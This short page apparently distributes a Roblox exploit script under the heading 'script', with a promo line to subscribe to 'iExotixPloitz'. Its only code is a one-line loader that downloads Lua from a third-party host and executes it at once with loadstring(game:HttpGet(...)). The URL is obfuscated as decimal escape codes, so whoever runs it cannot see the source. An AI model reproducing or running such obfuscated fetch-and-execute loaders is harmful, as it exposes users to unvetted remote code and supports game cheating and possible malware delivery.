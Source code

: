 # script

loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\118\101\100\114\111\120\46\104\111\108\100\52\53\54\52\46\100\101\47\110\111\114\109\97\108\47\115\99\114\105\112\116\46\116\120\116"))()

--Sub to iExotixPloitz

